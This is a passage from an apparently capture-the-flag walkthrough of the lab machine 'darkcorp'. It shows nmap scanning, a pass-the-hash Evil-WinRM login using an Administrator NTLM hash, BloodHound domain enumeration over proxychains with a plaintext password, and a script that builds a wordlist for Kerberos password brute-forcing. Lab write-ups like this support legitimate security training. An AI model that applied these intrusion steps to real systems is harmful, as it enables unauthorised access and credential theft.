 ## 9\. Internal Network Enumeration and User Flag

Scan and access:

```plaintext
nmap -sC -sV -p5000 172.16.20.2
```

Port 5000 requires Basic Auth — login with victor.r credentials.

Evil-WinRM to WEB-01:

```plaintext
evil-winrm -i WEB-01.darkcorp.htb -u Administrator -H 88d84ec08dad123eb04a060a74053f21
cd Desktop
type user.txt
# You will get User flag
```

## 10\. Domain Enumeration with BloodHound through ProxyChains

Install proxychains:

```plaintext
sudo apt install proxychains4
```

Configure SOCKS5 proxy, then run BloodHound collection:

```plaintext
proxychains4 bloodhound-python -u victor.r@darkcorp.htb -p 'victor1gustavo@#' -dc dc-01.darkcorp.htb --dns-tcp -ns 172.16.20.1 --dns-timeout 10 -c ALL -d darkcorp.htb --zip
```

Reveals `taylor.b.adm` is member of `gpo_manager`.

## 11\. Bruteforce Kerberos to Get taylor.b.adm Password

Prepare wordlist (filter &gt;=7 chars):

```plaintext
def process_line(line):
    line = line.strip()
    if len(line) < 7:
        return None
    return line

with open('/usr/share/wordlists/rockyou.txt', 'r', errors='ignore') as f, open('rockyou2.txt', 'w') as out:
    for line in f:
        word = process_line(line)
        if word:
            out.write(word + '\n')
```
